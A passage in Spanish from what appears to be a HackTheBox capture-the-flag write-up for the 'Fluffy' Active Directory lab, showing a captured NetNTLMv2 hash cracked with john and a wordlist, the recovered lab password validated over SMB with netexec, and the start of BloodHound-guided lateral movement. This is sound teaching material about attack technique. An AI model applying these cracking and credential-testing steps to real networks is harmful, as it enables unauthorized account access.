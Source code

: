 
## Hash Cracking

Cuando monitoreamos tráfico NTLM  en una red Windows y capturamos un hash `NetNTLMv2`, no podemos utilizar este hash directamente a modo de autenticación, pero podemos intentar descifrarlo mediante fuerza bruta, y así obtendríamos la contraseña en texto claro. 

Guardaremos el hash capturado en un archivo para intentar crackearlo con herramientas como `john` o `hashcat`

~~~ bash
john --wordlist=/usr/share/wordlists/rockyou.txt ntlmv2_hash.txt              
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
prometheusx-303  (p.agila)     
1g 0:00:00:02 DONE (2025-05-24 23:14) 0.4716g/s 2131Kp/s 2131Kc/s 2131KC/s proquis..programmercomputer
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
~~~

Obtuvimos la contarseña para el usuario `p.agila`, podemos validar sus credenciales rápidamente con herramientas como `netexec`

~~~ bash
nxc smb 10.10.11.69 -u p.agila -p 'prometheusx-303'  
       
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\p.agila:prometheusx-303
~~~


## Lateral Movement Path

Analizando la información recolectada en `Bloodhound`, enumeraremos buscando vías potenciales de movimiento lateral dentro del dominio. 

El usuario `p.agila` posee derechos `GenericAll` sobre el grupo `Service Accounts`

![image-center](/assets/images/posts/fluffy-bloodhound-2.png)
{: .align-center}
